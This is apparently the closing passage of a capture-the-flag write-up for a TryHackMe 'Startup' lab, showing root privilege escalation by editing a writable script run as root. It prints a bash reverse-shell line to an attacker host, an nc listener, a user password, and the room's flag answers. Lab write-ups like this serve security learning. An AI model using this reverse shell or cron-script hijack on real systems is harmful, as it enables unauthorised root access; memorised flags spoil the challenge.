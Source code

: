 **Answer**
###### THM{03ce3d619b80ccbfb3b7fc81e46c0e79}


**Question**
#### What are the contents of root.txt?

Let's check what command we can execute through **lennie** user
```
lennie@startup:~$ sudo -l
sudo -l
sudo: unable to resolve host startup
[sudo] password for lennie: c4ntg3t3n0ughsp1c3

Sorry, user lennie may not run sudo on startup.
```

Unfortunatelly, no command available. Continue to explore **lennie** directory. We have tow folders **Documents** and **scripts**.

**Documents** : 3 files but nothing interesting
**scripts** : **planner.sh** and **startup_list.sh**
```
lennie@startup:~/scripts$ ls -l
ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Dec 15 01:58 startup_list.txt
```

**planner.sh**
```
lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
This shell script call **print.sh**. Let's explore this script.
```
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

Now we can update this script to gain root access. Use script from this [link](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

- First: Edit the file and add this line with the local IP machine and Port that we will use for the listener
```
lennie@startup:/etc$ cat print.sh
#!/bin/bash
#echo "Done!"
 /bin/bash -c 'bash -i >& /dev/tcp/IP/5555 0>&1'
 ```
- Second: Start a listener in the local machine and wait few seconds
```
nc -nlvp 5555
Connection from 10.10.81.82:59204
bash: cannot set terminal process group (2116): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls
ls
root.txt
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```